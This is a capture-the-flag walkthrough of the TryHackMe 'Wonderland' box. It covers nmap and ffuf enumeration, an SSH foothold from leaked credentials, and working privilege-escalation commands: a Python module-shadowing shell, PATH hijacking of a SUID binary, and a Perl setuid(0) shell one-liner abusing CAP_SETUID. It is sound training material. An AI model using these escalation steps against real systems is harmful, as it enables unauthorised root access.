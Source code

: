 ```yaml
---
layout: post
title: thm-wonderland
description: THM Wonderland machine writeup. 
category: writeups
tags: python, suid, 
date: 2025-07-19 18:16 +0100
---
```

# Wonderland 
>Overall it was a fun box. Pretty basic enumeration and exploitation techniques we just have to keep up with the a bit long attack vector. Before diving into the walk-through here's a summary of some of the techniques we'll cover shortly:
1. The enumeration didn't have anything complicated: <mark style="color:blue;">basic nmap scan, few fuzzing</mark> and we find some <mark style="color:blue;">cleartext credentials</mark> that'll ssh us into the machine as a regular user. The user flag was in a very strange directory (as the comments stated as well)
2. To get to root, we'll be doing some <mark style="color:blue;">lateral movement</mark> as well. from the foothold as Alice we'll exploit a basic <mark style="color:blue;">Module Shadowing</mark> to gain access to rabbit.
3. From there, we'll find a binary with a <mark style="color:blue;">SUID bit</mark> that we'll use to gain access to hatter account through a <mark style="color:blue;">PATH Hijacking</mark>.
4. Finally, for root, back to the basics after some manual inspection, linpeas.sh (after <mark style="color:blue;">File transferring</mark> it to the target) shows <mark style="color:blue;">CAP\_SETUID</mark> available for the Perl interpreter!
{: .prompt-tip }     
Pwned successfully!

## Enumeration

```bash
sudo sh -c 'echo "<IP> wonderland.thm" >> /etc/hosts'
```

### Nmap

```bash
nmap wonderland.thm -sV -sC -Pn -T4 -oN def-scripts-scan -vv

PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8e:ee:fb:96:ce:ad:70:dd:05:a9:3b:0d:b0:71:b8:63 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDe20sKMgKSMTnyRTmZhXPxn+xLggGUemXZLJDkaGAkZSMgwM3taNTc8OaEku7BvbOkqoIya4ZI8vLuNdMnESFfB22kMWfkoB0zKCSWzaiOjvdMBw559UkLCZ3bgwDY2RudNYq5YEwtqQMFgeRCC1/rO4h4Hl0YjLJufYOoIbK0EPaClcDPYjp+E1xpbn3kqKMhyWDvfZ2ltU1Et2MkhmtJ6TH2HA+eFdyMEQ5SqX6aASSXM7OoUHwJJmptyr2aNeUXiytv7uwWHkIqk3vVrZBXsyjW4ebxC3v0/Oqd73UWd5epuNbYbBNls06YZDVI8wyZ0eYGKwjtogg5+h82rnWN
|   256 7a:92:79:44:16:4f:20:43:50:a9:a8:47:e2:c2:be:84 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBHH2gIouNdIhId0iND9UFQByJZcff2CXQ5Esgx1L96L50cYaArAW3A3YP3VDg4tePrpavcPJC2IDonroSEeGj6M=
|   256 00:0b:80:44:e6:3d:4b:69:47:92:2c:55:14:7e:2a:c9 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIAsWAdr9g04J7Q8aeiWYg03WjPqGVS6aNf/LF+/hMyKh
80/tcp open  http    syn-ack Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Follow the white rabbit.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
![Nmap Output](assets/thm-wonderland-1.png)

Okay then let's follow the white rabbit. To fuzzing now. Normally at this point we like to leave a UDP scan to run in the background or a full ports TCP scan and proceed further in our enumeration because nmap only scans the first top 1000 ports. We could possibly miss something if we only check those ports. For this machine the scan lead to nothing so you should step over that part and think about it for the next machines :smile:.

### Fuzzing

#### Subdomains/Vhosts

The scan for subdomains/Vhosts lead to nothing for this box. So we move on. (For the command below, you should consider a filter of your own with ffuf because we'll get lots of irrelevant stuff)

```bash
$ffuf -w <wordlist.txt>:FUZZ -u http://wonderland.thm -c -H 'Host: FUZZ.wonderland.thm'
```

#### Directories

```bash
$ffuf -w <wordlist.txt>:FUZZ -u http://wonderland.thm/FUZZ -c -v 
```

The command above will return the following directories:&#x20;
![Nmap Output](assets/thm-wonderland-2.png)


![Nmap Output](assets/thm-wonderland-3.png)

The `/img` directory was also clear to find when inspecting the home page.

![Nmap Output](assets/thm-wonderland-4.png)

Containing the following files:

![Nmap Output](assets/thm-wonderland-5.png)

Looking for fuzzing the other sub directories we find the following pattern:
![Nmap Output](assets/thm-wonderland-6.png)

Intuitively, checking the source code of every directory we find, we stumble upon what seems to be Clear-text Credentials of user Alice:
![Nmap Output](assets/thm-wonderland-7.png)


## Foothold/user flag - Alice

Since for now we didn't find any login portal, ssh is the only way we could possibly gain a foothold. Which was successful!

![Nmap Output](assets/thm-wonderland-8.png)


Okay root flag file in the home directory? Strange. How to deal with strange? Be even more strange:

![Nmap Output](assets/thm-wonderland-9.png)



## Lateral Movement

### 2nd User - Rabbit

```bash
find / -perm -4000 2>/dev/null
```
![Nmap Output](assets/thm-wonderland-10.png)


```bash
find / -perm -2000 2>/dev/null
```
![Nmap Output](assets/thm-wonderland-11.png)


Nothing in here.

At this point, we normally look for kernel exploit or a critical kernel vulnerability (Which is also done right after gaining foothold at the machine.) which also lead to nothing in this machine.

The command below tells us what binaries we can run as sudoers (if misconfigured):

```bash
$sudo -l
```
![Nmap Output](assets/thm-wonderland-12.png)


Okay, if we find a way to exploit the `walrus*.py` file and combine it with sudo command as `rabbit` user, we could get a shell as `rabbit`. Let's enumerate further.

Running the python script and checking the source code, we found nothing BUT thee first line:
![Nmap Output](assets/thm-wonderland-13.png)


This will lead to <mark style="color:red;">module shadowing</mark>, which is exploiting the way python imports modules, tricking the interpreter to import a local version of the random module. This is due to the random module is a `.py` file not a precompiled binary(built-in). Here's some resources to dive more into that vulnerability:



```bash
$echo "import os;os.system('/bin/sh')" > random.py
$ sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
```
![Nmap Output](assets/thm-wonderland-14.png)



### 3rd User - Hatter

Intuitively checking the rabbit's home directory:
![Nmap Output](assets/thm-wonderland-15.png)


Alright, no `strings` command, no `binwalk`, no `ltrace`, no `strace`. we gotta transfer this file to our local machine.

#### File Transfer

This can be done using many methods. We could use `scp` tool which is based on ssh, simple base64 encoding, or using a `python HTTP server`. BUT, in our case, the most efficient and quick way is setting up a `python HTTP server` and download the file with curl/wget. This is because we have access to the python interpreter and in order to use scp, we will need to add an ssh key for user rabbit.

Here's how we're going to do it:

```bash
compromized-host$cd /home/rabbit
compromized-host$python3 -m http.server
```

```bash
attacking-machine$wget http://target-ip:8000/teaParty
```
![Nmap Output](assets/thm-wonderland-16.png)


![Nmap Output](assets/thm-wonderland-17.png)


Okay, no need to debug or anything, we got something interesting:

```bash
/bin/echo -n 'Probably by ' && date --date='next hour' -R
```

Here's why this line of code might be vulnerable: the one-liner  uses non relative path for the date command. So if thee system relies of the PATH variable to execute the command, we might alter  the PATH variable and point it to a malicious binary of our choice, and since teaParty has SUID bit set, we can move forward to the next user. Here we go:

```bash
compromized-host$echo '#! /bin/bash\n/bin/sh' > /tmp/date
# You can choose the home directory not the /tmp.  
compromized-host$
compromized-host$chmod +x /tmp/date
compromized-host$export PATH=/tmp:$PATH
compromized-host$./teaParty
```
![Nmap Output](assets/thm-wonderland-18.png)


Now with the cleartext credentials on the home directory we ssh into the server with hatter user.

## Privilege Escalation

After getting the [linpeas.sh](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS) script on the machine using one of the methods we. We get interesting vulnerable stuff:
![Nmap Output](assets/thm-wonderland-19.png)


> Traditionally, a Linux process is either privileged (running as root) or unprivileged. Privileged processes are not subject to kernel permission checks, and thus have full power over a system. A capability is a distinct and independent privilege that can be used by a process to bypass certain permission checks. Capabilities were first introduced in Linux 2.2, and several more were added in later versions. They are usually set on executable files and are automatically granted to the process when a file with a capability is executed. Capabilities essentially divide the power of the root user into separate privileges, which improves security by limiting the access an attacker would gain by exploiting or abusing a service

So, i simple perl script that sets the hatter user ID to 0 will bypass all the privileges checking since the process will have that specific capability. Here's a script i found on [GTFObins](https://gtfobins.github.io/gtfobins/perl/).

```bash
/usr/bin/perl5.26.1 -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
```
![Nmap Output](assets/thm-wonderland-20.png)



